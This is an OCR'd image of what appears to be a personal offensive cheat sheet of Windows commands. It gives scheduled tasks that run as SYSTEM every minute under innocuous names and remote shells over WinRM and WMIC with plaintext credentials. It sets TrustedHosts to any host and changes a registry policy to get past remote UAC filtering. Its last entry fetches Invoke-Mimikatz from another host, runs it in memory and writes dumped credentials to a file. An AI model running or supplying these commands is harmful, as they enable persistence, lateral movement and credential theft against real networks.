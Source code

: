 Schedule Tasks
		
		schtasks /create /sc minute /mo 1 /tn "Ralphz" /f /tr c:\\users\\monty\\appdata\\sch.exe /ru SYSTEM /rl HIGHEST
		schtasks /create /sc minute /mo 1 /tr "c:\programdata\443enc.bat" /tn "bat" /f  --> may not be good as target screen will flash cmd

		schtasks | findstr Ralph
		schtasks /delete /tn "Ralphxx" /f
			Note that if schtasks invokes UAC, it will fail to run. Use /rl HIGHEST
		
		Run schtasks on remote computer
		schtasks /query /fo list /s \\192.168.11.172 /u user /p "xxx"


Check logs Microsoft-Windows-TaskScheduler/Operational

    wevtutil qe Microsoft-Windows-TaskScheduler/Operational "/q:*[System [(EventID=100)]]" /f:text /rd:true | findstr "echos2"
		wevtutil qe Microsoft-Windows-TaskScheduler/Operational /f:text /rd:true | findstr "echos2"
	
WinRM (default tcp port 5985, 5986)

		To enable: winrm qc -quiet
		To config to specific port: 
			winrm create
			winrm/config/Listener?Address=*+Transport=HTTP @{Port="1234"}
		To allow any IP host to use winrm
			winrm.cmd set winrm/config/client @{TrustedHosts="*"}
		To use winRS to connect to winrm server
			winrs -r:http://1.1.1.1:1234 -u:1.1.1.1\Administrator -p:password "cmd.exe"	
		Check
			winrm get winrm/config/client
			winrm get winrm/config/server
		Examples:	
		wmic /node:"192.168.11.154" /user:"Administrator" /password:"password" process call create "cmd.exe /c winrm qc -quiet && winrm.cmd set winrm/config/client @{TrustedHosts="*"}"
		wmic /node:"192.168.11.154" /user:"Administrator" /password:"password" process call create "cmd.exe /c winrm get winrm/config > c:\users\lisa\appdata\win.txt"	

		winrs -r:http://192.168.11.154:5985 -u:lisa -p:password "cmd.exe"
		For local account, put -u:win10lab\user
		Note: Do NOT put "" in username or password, will get access denied!
		Note that the client needs to trust the remote machine by setting TrustedHost
		Note that domain users need to be member of WinRMRemoteWMIUsers_ group
		Note that only local admins accounts can use winrm, non-admins must be member of Remote Management Users group and other permissions are required 
		
		If connecting using local admin account, need to set registry
		reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v "LocalAccountTokenFilterPolicy" /t REG_DWORD /d 1 /f
	
	
  Powershell execute without touching disk
	
    wmic /node:"10.200.4.28" /user:"Administrator" /password:"P@ssw0rd" process call create "powershell.exe -ep bypass IEX (New-object System.Net.Webclient).DownloadString('http://10.200.2.28:8000/Invoke-Mimikatz.ps1'); Invoke-mimikatz -dumpcreds | out-file c:\\programdata\\creds.txt"
	